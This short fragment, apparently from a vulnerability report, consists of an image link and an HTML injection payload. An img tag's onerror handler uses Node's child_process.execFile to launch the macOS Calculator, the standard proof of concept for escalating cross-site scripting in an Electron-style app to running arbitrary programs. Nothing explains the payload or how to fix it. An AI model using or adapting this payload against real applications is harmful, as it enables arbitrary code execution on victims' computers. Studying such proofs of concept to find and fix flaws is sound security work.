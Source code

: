 <img src=x onerror="javascript:
window.parent.top.require('child_process').execFile('/Applications/Calculator.app',function(error, stdout, stderr){        if(error){
            console.log(error);
        } });">